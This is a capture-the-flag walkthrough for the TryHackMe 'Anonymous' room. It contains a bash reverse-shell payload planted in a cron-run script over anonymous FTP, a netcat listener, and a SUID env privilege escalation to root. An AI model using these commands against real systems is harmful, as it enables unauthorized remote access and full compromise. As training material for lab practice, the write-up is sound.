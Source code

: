 In this capstone we will use:
- [https://tryhackme.com/r/room/anonymous](https://tryhackme.com/r/room/anonymous)

# Nmap scan
First of all we do a `nmap` scan:
```bash
nmap -T4 -p- -A HOST_IP
```
- ![[Pasted image 20250120122323.png]]
- we have many ports open


We start from `ftp`

# ftp port 21 enum
So we try to get info about ftp on the port 21

We start to access to `ftp` with the credentials `anonymous:anonymous`:
```bash
ftp HOST_IP
```
- ![[Pasted image 20250120122515.png]]

We are in, and we try to see which file we can access:
```bash
ls
```
- ![[Pasted image 20250120122545.png]]

We have a script folder that we look at:
- ![[Pasted image 20250120122609.png]]
- 3 files in it


So we pass all of them on our machine using the command:
```bash
mget *
```
- ![[Pasted image 20250120122650.png]]


> IMPORTANT: we can pass to binary mode in order to avoid problems on trasfering

```bash
binary 

mget *
```


At this point we have everything on our machine and we start to look at that:
```bash
cat to_do.txt
```
- ![[Pasted image 20250120122842.png]]

Then we cat the log file:
```bash
cat removed_files.log
```
- ![[Pasted image 20250120122907.png]]

But nothing to see...


So we look at the script:
```bash
cat clean.sh
```
- ![[Pasted image 20250120122955.png]]

But if we change this script content with a malicious one?
- It could work, because this script could be executed by a `cron` job

# Get a reverse shell

So we try to insert a reverse shell in it:
- [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

We start with the bash one, we create a `clean.sh` file and we put in it:
```bash
#!/bin/bash

bash -i >& /dev/tcp/OUR_IP/7777 0>&1
```


At this point we run `nc` on our machine:
```bash
nc -nlvp 7777
```


## pass the new file to ftp

Now we need to pass our malicious file into the ftp server accessing as `anonymous:anonymous`:
```bash
ftp HOST_IP
```

So we go on the `/scripts` folder and we put the new file:
```bash
put clean.sh
```
- ![[Pasted image 20250120123527.png]]


Now we need to wait a little bit to be executed and:
- ![[Pasted image 20250120123553.png]]
- and we got a user shell


# Privilege escalation
At this point we start with our privesc enum.

# kernel
We do a system enumeration:
```bash
uname -a
```
- ![[Pasted image 20250120123645.png]]

# Sudo 
We try to use:
```bash
sudo -l
```
- ![[Pasted image 20250120123907.png]]
- But no tty found

So we can try to run `tty` looking at:
- [https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell](https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell)

So we run:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
- in our case `bash` because we are using it
- ![[Pasted image 20250120124103.png]]

So we run now:
```bash
sudo -l
```
- ![[Pasted image 20250120124119.png]]
- it asks for password


# SUID
At this point we try with `SUID` :
```bash
find / -perm -04000 -t f -ls 2>/dev/null
```
- ![[Pasted image 20250120124318.png]]

We can try with `env`:
- ![[Pasted image 20250120124341.png]]
- we search it on GTFOBins



So we run now as we saw in GTFOBins:
```bash
/usr/bin/env /bin/bash -p
```
- ![[Pasted image 20250120124448.png]]


We gain a root shell!